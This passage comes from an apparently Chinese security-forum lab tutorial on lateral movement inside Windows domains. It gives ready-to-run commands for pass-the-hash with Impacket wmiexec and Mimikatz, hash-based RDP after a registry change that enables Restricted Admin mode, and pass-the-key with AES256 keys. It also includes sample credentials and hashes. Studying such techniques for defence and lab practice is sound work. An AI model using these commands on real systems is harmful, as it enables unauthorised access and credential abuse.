 

第三种：使用第三方impacket套件中的Wmiexec进行明文或hash传递，执行结果有回显  
Wmiexec test/Administrator:zxcvbnm123@192.168.202.148 “whoami”  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_FDEV5ZVYREAXBRA.png)  
Wmiexec -hashes :fac5d668099409cb6fa223a32ea493b6
test/Administrator@192.168.202.148 “whoami”  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_43FNE5ARNJR5FHY.png)

##
[](https://bbs.pediy.com/thread-268289.htm#3.4%E5%88%A9%E7%94%A8mimikatz%E8%BF%9B%E8%A1%8Cpth)3.4利用Mimikatz进行PTH

PTH是攻击者通过LM Hash和NTLM Hash访问远程主机或服务，不需提供明文密码。当禁用了NTLM
Hash验证时，不能使用PsExec进行Hash传递，mimikatz还是可以。  
Privilege::debug  
Sekurlsa::pth /user:Administrator /domain:test
/ntlm:fac5d668099409cb6fa223a32ea493b6  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_BRZGNT44RGY4J97.png)  
关于KB22871997是否能防护PTH攻击？  
Pth：没有打补丁时，任何用户都可以连接，打了补丁只能administrator连接  
Ptk：打了补丁后，用户才能可以连接，采用aes256连接

## [](https://bbs.pediy.com/thread-268289.htm)3.5 利用RDP进行横向移动

1、使用明文密码连接RDP  
Windows: Mstsc.exe /console /v:192.168.202.148 /admin  
Linux: rdesktop 192.168.202.148:3389  
2、使用hash连接RDP  
使用hash 连接需要Restricted Admin mode开启，Windows server 2012默认开启了，windows server
2008需要安装2871997、2973351补丁后，执行下面命令：  
REG ADD “HKLM\System\CurrentControlSet\Control\Lsa” /v DisableRestrictedAdmin
/t REG_DWORD /d 00000000 /f  
当开启后就能使用mimikatz进行hash连接RDP：  
Privilege::debug  
Sekurlsa::pth /user:Administrator /domain:test
/ntlm:fac5d668099409cb6fa223a32ea493b6 “/run:mstsc.exe /restrictedadmin”

## [](https://bbs.pediy.com/thread-268289.htm)3.6 PTK(pass the key)在横向移动利用

利用ekeys aes256  
Sekurlsa::ekeys 获取aes  
Sekurlsa::pth /user:Administrator /domain:test2
/aes256:6e09831ee88fb85c8a3f4a88dea70e2a1b18197b70d57a9eebad73b45137433d  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_GEK33J6XRJYTSGD.png)
